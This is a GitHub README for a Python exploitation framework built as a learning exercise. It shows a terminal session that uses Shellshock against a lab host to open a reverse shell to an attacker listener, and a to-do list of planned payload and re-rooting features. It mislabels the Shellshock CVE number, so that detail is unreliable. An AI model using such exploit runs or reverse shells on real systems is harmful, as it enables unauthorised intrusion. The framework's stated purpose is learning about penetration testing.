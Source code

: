 # pysploit

This is a metasploit-like framework for system exploitation and penetration 
testing written in python. It is a work in progress and is an educational 
exercise for me so I learn how things actually work and stop being such a skid.

### Example of exploitation of the shellshock vulnerability (CVE-2014-6071)

```
$ pysploit.py
[+] New session created
[*] Starting the network handler
	[+] Network handler started successfully!
[*] Initializing all the initializables

         ,__________    ,__
        /   __      |  /  /
       /   /_/  /|   \/  /
      /   ,____/  \     /
     /   /        /    /
     `--'         `---' sploit

$ pysploit> exploit load shellshock
$ exploit (shellshock)> exploit options
[~] Exploit options	[~]
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		None
victim_port             |		None
attacker_ip             |		None
attacker_port           |		None
cgi_path                |		None
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
$ exploit (shellshock)> exploit set victim_ip 192.168.56.101
$ exploit (shellshock)> exploit set victim_port 80
$ exploit (shellshock)> exploit set attacker_ip 192.168.56.102
$ exploit (shellshock)> exploit set attacker_port 4444
$ exploit (shellshock)> exploit set cgi_path /cgi-bin/status
$ exploit (shellshock)> exploit set payload None
$ exploit (shellshock)> exploit options
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		192.168.56.101
victim_port             |		80
attacker_ip             |		192.168.56.102
attacker_port           |		4444
cgi_path                |		/cgi-bin/status
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
$ exploit (shellshock)> exploit run
[*] Checking for vulnerability
	[*] Injecting with test nonce 13b64e57dbff4e63b412d40f02ecc933
	[+] Received vulnerable output from target!
	[+] Target 192.168.56.101 is vulnerable to shellshock
[*] Running exploit for shellshock on 192.168.56.101
	[*] Shell injection sent (reverse catch at 192.168.56.102:4444)
	[+] Shell caught by listener!
[+] Exploitation completed!
$ exploit (shellshock)>
```

And on our listening machine...

![We have a catch](https://github.com/spencerdodd/pysploit/blob/master/imgs/example-catch.png "catch img")

As easy as that!

### =-=-=-= To Do =-=-=-=

* Build network module for the framework to handle file-dropping, multi-stage payload uploading, shell-hand
ling, etc.

* Create some payloads / payload execution frameworks (based off of network module interactions)

* Potentially migrate exploitation into Twisted protocols that are created by the exploits (?)

* Create machine profiles that log and remember successful exploit chains that lead to either user or system
compromise. Should have the ability to 'one-shot' re-root a logged machine profile by executing a single function.